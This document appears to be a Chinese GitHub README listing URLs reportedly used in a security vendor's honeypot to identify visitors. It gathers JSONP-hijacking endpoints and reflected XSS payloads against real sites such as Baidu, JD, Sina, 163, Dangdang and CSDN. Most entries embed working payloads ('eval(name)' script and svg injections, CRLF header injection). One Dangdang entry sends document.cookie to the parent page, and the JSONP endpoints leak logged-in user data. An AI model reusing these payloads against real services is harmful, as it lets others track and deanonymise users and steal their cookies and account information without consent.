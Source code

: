 # MoAn_Honey_Pot_Urls
X安蜜罐用的一些存在JSonp劫持的API

# URLs

| 链接 | 说明 |
| ---- | ---- |
| http://api-live.iqiyi.com/stream/geth5?qd_tm=1553094041094&&xxoo=chrome-extension://&typeId=1&platform=7&vid=0&qd_vip=0&qd_uid=2327344064&qd_ip=x.x.x.x&qd_vipres=0&qd_src=h5_xiu&qd_tvid=0&_=1553094041094&callback=%3Csvg/onload=eval(name)%3E | 爱奇艺 |
| http://comment.api.163.com/api/v1/products/a2869674571f77b5a0867c3d71db5856/users/myInfo?ibc=newspc&callback=jsonp_1576488793844&_=1576488793845 | 163 |
| http://musicapi.taihe.com/v1/restserver/ting?from=web&format=json&param=LSybM0sdw2aqEfumhdonnx8fVeIHBQtuiPCKUtmcDzyQAMZmL9gayz8xP%2FHmDp%2BH&timestamp=1574934266&sign=6d4fb00655a40b21407243b6be7274a4&
method=baidu.ting.ugccenter.getUserBaseInfo&callback=? | 泰禾音乐集团 |
| https://login.sina.com.cn/sso/prelogin.php?entry=weibo&su=&rsakt=mod&client=ssologin.js(v1.4.19)&_=1552901735056&callback=? | 渣浪 |
| http://comment.api.163.com/api/v1/products/a2869674571f77b5a0867c3d71db5856/users/0/dailyAchv?ibc=newspc&from=all&callback=? | 163评论 |
| https://wz.cnblogs.com/create?t=xxxx&xxoo=chrome-extension://&&u=%22%3E%3Csvg/onload=eval(name)%3E&c=&i=0 | 博客园 |
| https://hudong.vip.youku.com/act/mili/download.html?mobile=1&xxoo=chrome-extension://&download=javascript:new%20Function(name)();//https://down2.uc.cn///https://itunes.apple.com/app | 优酷 |
| http://wapsite.baidu.com/j.php?z=2&xxoo=chrome-extension://&page=index_cxv3&pos=search_rsc_n2&level=1&ver=android&url=%0D%0Ahttp://m.baidu.com/%0D%0aX-XSS-Protection:0%0d%0a%0d%0a%3Cscript%3Eeval(window.name)%3C/script%3E | 百度 |
| http://databack.dangdang.com/dde.php?platform=pc&xxoo=chrome-extension://&type=3&url=http://www.dangdang.com/&charset=GBK&perm_id=20200530121832924211210288241440628&page_id=mix_317715&website=dangdang.com&expose=123&callback=%22%3E%3Cscript%3Eeval(name)%3C/script%3E | 当当 |
| http://databack.dangdang.com/dde.php?platform=pc&xxoo=chrome-extension://&type=3&url=http%253A%252F%252Fwww.dangdang.com%252F&charset=GBK&perm_id=20200530121832924211210288241440628&page_id=mix_317715&website=dangdang.com&expose=%255B%2522mix_317715.3208542%252C9339%252C9354..%2522%252C%2522mix_317715.3208542%252C9339%252C9356..%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9341..%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.1.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.2.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.3.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.4.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.5.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.6.%2522%252C%2522mix_317715.3208542%252C9339%252C9356%252C9342.7.%2522%255D&callback=%3Ciframe/src=javascript:eval(%22window.parent.window.parent.postMessage({source:%20%22dangdang%22,%20d:%20document.cookie},%20%22*%22);%22)%3E | 当当 |
| https://api.csdn.net/oauth/authorize?client_id=1000001&xxoo=chrome-extension://&redirect_uri=http://www.iteye.com/auth/csdn/callback&response_type=%22https%3A%2F%2Fapi.csdn.net%2Foauth%2Fauthorize%3Fclient_id%3D1000001%26redirect_uri%3D%22http%3A%2F%2Fwww.iteye.com%2Fauth%2Fcsdn%2Fcallback%26response_type%3D%22%3E%3Cimg%20src%3Dx%20onerror%3Deval(window.name)%3E | CSDN |
| https://zhifu.baidu.com/proxy/req/newcashier?cityId=&customerId=55&defaultResPage=0&deviceType=3&extData=&ext_store_no=&failUrl=&imei=&itemInfo=[{%22id%22:%22IPRQZ1598593080ba981c084142%22,%22number%22:1,%22price%22:10000,%22name%22:%221%22}]&mobile=&notifyUrl=http://quzheng.baidu.com/iprweb/v1/pay_status&orderCreateTime=1598593081&orderExpireTime=&orderId=IPRQZ1598593080ba981c084142&originalAmount=1&passScope=&passuid=&payAmount=1&returnUrl=http://quzheng.baidu.com/iprweb/v1/pay_return&sdk=0&sdkStyle=0&service=Cashier&sourceApp=&spData=&tag=&title=%3C/script%3E%3Cscript%3Eeval(window.name)%3C/script%3E&tn=&tpl=2&url=&signType=md5orchrome-extension://&sign=659ff744e50cbe1ceb4892af43d9f7f6 | 百度 |
| https://www.huya.com/udb_web/udbport2.php?m=HuyaLogin&xxoo=chrome-extension://&do=checkLogin&callback=jQuery22407402084422104858_1604891765254&callback=jQuery15208825534966858746_1621838003202&_=1621838003273 | 虎牙 |
| https://m.iask.sina.com.cn/cas/logins?domain=iask.sina.com.cn&xxoo=chrome-extension://&businessSys=iask&channel=null&popup=show&clsId=undefined&fid=%22%3E%3Cscript%3Eeval(name)%3C/script%3E | 新浪 |
| https://mooc1-1.chaoxing.com/api/workTestPendingNew?&xxoo=chrome-extension://&classIds=%3CScRiPt%3Eeval(name)%3C/sCrIpT%3E | 超星尔雅 |
| https://accounts.ctrip.com/ssoproxy/ssoGetUserInfo?xxoo=chrome-extension://&jsonp=jQuery2398423949823&callback=jQuery15208825534966858746_1621838003204&_=1621838003279 | 携程 |
| https://myjr.suning.com/sfp/mutualTrust/getLoginInfo.htm?xxoo=chrome-extension://&&callback=jQuery172011468305000873791_1608255922695&_=1621838003278 | 苏宁 |
| http://my.zol.com.cn/public_new.php?xxoo=chrome-extension:// | 中关村 |
| https://bbs.zhibo8.cc/user/userinfo?device=pc&xxoo=chrome-extension://&_=1621838003277&callback=jQuery15208825534966858746_1621838003203 | 直播8 |
| http://passport.tianya.cn/online/checkuseronline.jsp?t=1584614187028&callback=callback&xxoo=chrome-extension:// | 天涯 |
| https://api.m.jd.com/api?appid=pc_home_page&xxoo=chrome-extension://&functionId=getBaseUserInfo&loginType=3&jsonp=jsonp2 | 京东 |
| https://api.m.jd.com/client.action?functionId=getBabelProductPaged&xxoo=chrome-extension://&body=%7b%22%73%65%63%6f%6e%64%54%61%62%49%64%22%3a%22%30%30%31%35%35%35%35%34%37%30%38%39%33%5f%30%33%37%32%36%36%30%30%5f%22%2c%22%74%79%70%65%22%3a%22%30%22%2c%22%70%61%67%65%4e%75%6d%22%3a%22%31%22%2c%22%6d%69%74%65%6d%41%64%64%72%49%64%22%3a%22%22%2c%22%67%65%6f%22%3a%7b%22%6c%6e%67%22%3a%22%22%2c%22%6c%61%74%22%3a%22%22%7d%2c%22%61%64%64%72%65%73%73%49%64%22%3a%22%22%2c%22%70%6f%73%4c%6e%67%22%3a%22%22%2c%22%70%6f%73%4c%61%74%22%3a%22%22%2c%22%66%6f%63%75%73%22%3a%22%22%2c%22%69%6e%6e%65%72%41%6e%63%68%6f%72%22%3a%22%22%7d&screen=2799*1208&client=wh5&clientVersion=1.0.0&sid=&uuid=&area=&_=1585823068850&callback=jsonp1 | 京东 |
| https://p.qiao.baidu.com/cps3/chatIndex?siteToken=%3C/script%3E%3Cimg%20src=x%20onerror=eval(window.name)%3E&xxoo=chrome-extension://&speedLogId=&eid=28181423&reqParam=%7B%22from%22%3A0%2C%22sid%22%3A%22-100%22%2C%22tid%22%3A%22-1%22%2C%22ttype%22%3A1%2C%22siteId%22%3A%2213768072%22%2C%22userId%22%3A%2228181423%22%2C%22pageId%22%3A0%7D | 百度 |
| https://home.51cto.com/index.php?s=/Index/getLoginStatus2015/reback/http%253A%252F%252Fwww.51cto.com%252F&xxoo=chrome-extension:// | 51cto |
| https://home.ctfile.com/iajax.php?item=profile&xxoo=chrome-extension://&action=index&jsonp=jQuery2398423949823 | 城通网盘 |
